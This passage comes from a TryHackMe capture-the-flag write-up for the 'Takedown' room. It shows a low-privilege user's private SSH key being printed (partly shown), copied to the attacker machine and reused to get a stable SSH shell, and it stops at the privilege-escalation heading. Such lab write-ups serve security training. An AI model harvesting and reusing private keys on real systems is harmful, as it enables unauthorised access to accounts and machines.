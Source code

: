 I'm `webadmin-lowpriv`!

**user.txt:**
```
webadmin-lowpriv@www-infinity:~$ cat /home/webadmin-lowpriv/user.txt
THM{Redacted}
```

**Stable shell:**

In the home directory of `webadmin-lowpriv` user, **there is a `.ssh` directory that contains a private SSH key!**

```
webadmin-lowpriv@www-infinity:~$ ls -lah .ssh
total 20K
drwx------ 2 webadmin-lowpriv webadmin-lowpriv 4.0K Jul 27 01:50 .
drwxr-xr-x 5 webadmin-lowpriv webadmin-lowpriv 4.0K Jul 27 02:45 ..
-rw-rw-r-- 1 webadmin-lowpriv webadmin-lowpriv  583 Jul 27 01:50 authorized_keys
-rw------- 1 webadmin-lowpriv webadmin-lowpriv 2.6K Jul 27 01:49 id_rsa
-rw-r--r-- 1 webadmin-lowpriv webadmin-lowpriv  583 Jul 27 01:49 id_rsa.pub

webadmin-lowpriv@www-infinity:~$ cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA2y28m9zvL55VUnGvjKvJoO/puyib5S2W5dK6j9RS0IunKooAeiTj
h7lfUiVmHi+Jrf9SwGvU386UneEsvJ6KSNZvIezrfmHltx3igasWldeeGsxuA4qLHsQCy0
5aZyWnnSm5z0bi1uUDUeb75H3MX4rxXT0JrsryYYjd9Vz4cNGW5zk/J4m6O3PAla+notFn
[...]
```

**Since the SSH port is opened, I'll copy and paste that private key to my attacker machine:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# nano webadmin-lowpriv_id_rsa
                                                                                                       
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# chmod 600 webadmin-lowpriv_id_rsa
```

**Then, we can SSH into user `webadmin-lowpriv` with the private key!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# ssh -i webadmin-lowpriv_id_rsa webadmin-lowpriv@$RHOSTS
[...]
webadmin-lowpriv@www-infinity:~$ whoami;hostname;id
webadmin-lowpriv
www-infinity
uid=1001(webadmin-lowpriv) gid=1001(webadmin-lowpriv) groups=1001(webadmin-lowpriv)
```

# Privilege Escalation

## webadmin-lowpriv to root
